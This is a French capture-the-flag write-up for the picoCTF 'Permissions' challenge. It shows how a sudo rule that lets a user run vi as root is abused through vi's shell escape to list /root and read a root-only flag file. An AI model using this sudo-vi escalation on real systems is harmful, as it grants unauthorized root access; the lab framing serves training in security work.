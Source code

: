 # Permissions

## Enoncé
Catégorie : [General Skills](../)

Points : 100

Tags : `vim`

Description :
> Can you read files in the root file?  
> The system admin has provisioned an account for you on the main server:  
> `ssh -p xxxxx picoplayer@saturn.picoctf.net`  
> Password: `xxxxx`  
> Can you login and read the root file?

Hints :
1. What permissions do you have?


## Approche

L'examen des droits `sudo` pour le user `picoplayer` montre des droits particuliers pour l'utilisation de l'éditeur `vi` :
```bash
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer:
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```


## Solution

On utilise les possibilités d'exécution de commande depuis `vi`. Tout d'abord pour lister les fichiers présents dans le HOME directory du user `root`, puis pour afficher le contenu du fichier qui nous intéresse.

On démarre donc `vi` via `sudo` :
```
picoplayer@challenge:~$ sudo vi
```

Depuis `vi` on passe en mode ligne de commande (via ':') et on demande l'exécution d'une commande (via '!') :
```
:!ls /root/.*

/root/.bashrc  /root/.flag.txt  /root/.profile  /root/.viminfo

/root/.:

/root/..:
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var

Press ENTER or type command to continue
```

On renouvelle l'opération, pour afficher le contenu du fichier `.flag.txt` :
```
:!cat /root/.flag.txt
picoCTF{uS1ng_v1m_3dit0r_xxxxxxxx}
Press ENTER or type command to continue
```
